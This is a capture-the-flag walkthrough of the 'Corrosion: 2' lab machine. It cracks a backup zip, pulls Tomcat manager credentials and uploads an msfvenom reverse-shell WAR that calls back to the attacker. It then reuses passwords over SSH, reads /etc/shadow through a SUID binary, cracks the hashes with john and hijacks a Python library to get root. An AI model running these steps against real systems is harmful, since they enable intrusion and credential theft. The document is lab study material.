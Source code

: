 # Corrosion: 2

### Nmap Scan

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6a:d8:44:60:80:39:7e:f0:2d:08:2f:e5:83:63:f0:70 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCxEaMV/cOFTyD2I2ITIKwQ4b/bNPssxteT2yDAFcUeWUEMen6sr0RS9Wa7pk0ywsbDR/nTrbvSXCVumjaF2UG1nf5d0iu7RgSOWmtWNllMCmH8fUqBXoSVTsR6

80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET

8080/tcp open  http    syn-ack ttl 64 Apache Tomcat 9.0.53
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.53
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

---

### First look of website.

![Website First look](./img/website.png)

### Hidden Directory

```bash
## Most IMP 
/backup.zip -> password protected 

/docs
/examples
/manager 
```

- Download the zip file from `/backup.zip`
- The zip file is password protected.

---

### Crack backup.zip Password

```bash
fcrackzip -u backup.zip -D -p /usr/share/wordlists/rockyou.txt -v
```

- Successfully crack the password.
    
    > **Cracked Password** = @administrator_hi5
    > 

---

### Inside website

- After unzip the backup file we get credentials from → `tomcat-users.xml`
- `/manager` is a directory appears to be interesting.

> **username = admin**
> 

> **password = melehifokivai**
> 
- It looks like we can upload the .war file to get a reverse-shell.

![Upload .war payload](./img/upload-payload.png)

---

# Multiple Methods to get a **reverse-shell**

1. Use msfvenom to get a revershell 
- Upload this `rev.war` file
- Go to → http://IP:8080/rev/

![successful payload upload](./img/successful-netcat.png)

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_IP> LPORT=1337 -f war -o rev.war
```

---

1. Use Metasploit → `multi/http/tomcat_mgr_upload`

```bash
set RHOST
set RPORT
## Optional  
set HttpPassword melehifokivai 
## Optional  
set HttpUsername admin  
```

---

### SSH Login

- we have 3 users
- we can check if any password is reuse.
- and it work `jaye` has a reuse password.

```
jaye:melehifokivai
randy
tomcat 
```

![SSH login as jaye](./img/ssh-jaye.png)

---

### Privilege Escalation

- we can use `linpeas` also
- But first we try manual testing
- This is use for search for all files on the system that have the SUID (Set User ID) permission set.

```bash
## search for all files on the system that have the SUID (Set User ID) permission set.
find / -perm -4000 2>/dev/null 
```

- After running this command we see something unusual.

![SUID Binary Files ](./img/SUID-set.png)

- `/home/jaye/Files/look` → Try GTFOBins

![GTFOBins payload for look](./img/GTFOBins.png)

- Payload

```bash
## File Read
LFILE=/etc/shadow
./look '' $LFILE
```

![/etc/shadow file](./img/shadow-file.png)

- username & password  → /etc/shadow

```bash
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
```

- Save this file and use john to crack there passwords.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```

> **Cracked Password = 07051986randy**
> 
> 
> **Username = randy**
> 

---

### Login As randy

```bash
ssh randy@IP
```

![SSH login as randy](./img/ssh-randy.png)

- user → randy can run python script with privileges.

![sudo permission](./img/Hint.png)

- we can edit the python script and inject a cmd to spawn a root shell.
    - edit `/usr/lib/python3.8/base64.py`

![Root Privilege Payload](./img/payload.png)

```python
import os

os.system("/bin/bash")
```

- save this
- when we run `randombase64.py` python script, which triggers our `base64.py` and give us a root shell.

![Root Access](./img/root.png)

```bash
sudo /usr/bin/python3.8 /home/randy/randombase64.py 
```